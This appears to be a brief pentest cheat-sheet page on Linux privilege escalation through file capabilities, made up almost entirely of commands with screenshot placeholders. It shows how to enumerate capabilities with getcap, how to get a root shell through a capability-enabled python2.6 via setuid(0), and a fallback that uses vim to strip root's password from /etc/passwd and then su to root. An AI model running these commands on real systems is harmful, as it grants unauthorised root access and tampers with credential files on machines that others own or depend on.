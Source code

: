 # capability

get system capability

```
 getcap -r / 2>/dev/null 
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
usr/bin/python2.6  -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

***

> try to edit on `/etc/passwd` if the first case not work

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

su root
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
